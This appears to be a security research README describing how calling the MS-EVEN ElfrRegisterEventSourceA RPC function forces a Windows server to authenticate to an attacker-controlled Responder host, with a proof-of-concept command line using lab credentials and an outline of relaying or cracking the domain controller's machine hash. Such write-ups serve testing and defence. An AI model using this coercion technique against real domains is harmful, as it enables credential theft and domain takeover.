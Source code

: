 # MS-EVEN - Remote call to ElfrRegisterEventSourceA (opnum 15)

## Summary

 - **Protocol**: [[MS-EVEN]: EventLog Remoting Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/55b13664-f739-4e4e-bd8d-04eeda59d09f)

 - **Protocol UUID**: 82273fdc-e32a-18c3-3f78-827929dc23ea

 - **Protocol version**: 0.0

 - **SMB Named pipe**: `\PIPE\eventlog`

 - **Function name**: [`ElfrRegisterEventSourceA`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/85c31da0-b47f-4776-9024-4f0fb09a046c)

 - **Function operation number**: `15`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\eventlog` and bind to the desired [`MS-EVEN`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/55b13664-f739-4e4e-bd8d-04eeda59d09f) protocol (with uuid `82273fdc-e32a-18c3-3f78-827929dc23ea` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-EVEN`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/55b13664-f739-4e4e-bd8d-04eeda59d09f) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\eventlog` This pipe is connected to the protocol [[MS-EVEN]: EventLog Remoting Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/55b13664-f739-4e4e-bd8d-04eeda59d09f) and allows to call RPC functions of this protocol. We will then call the remote [`ElfrRegisterEventSourceA`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/85c31da0-b47f-4776-9024-4f0fb09a046c) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
ElfrRegisterEventSourceA('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
NTSTATUS ElfrRegisterEventSourceA(
   [in] EVENTLOG_HANDLE_A UNCServerName,
   [in] PRPC_STRING ModuleName,
   [in] PRPC_STRING RegModuleName,
   [in] unsigned long MajorVersion,
   [in] unsigned long MinorVersion,
   [out] IELF_HANDLE* LogHandle
 );
```

## References

 - Documentation of protocol [MS-EVEN]: EventLog Remoting Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/55b13664-f739-4e4e-bd8d-04eeda59d09f

 - Documentation of function `ElfrRegisterEventSourceA`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/85c31da0-b47f-4776-9024-4f0fb09a046c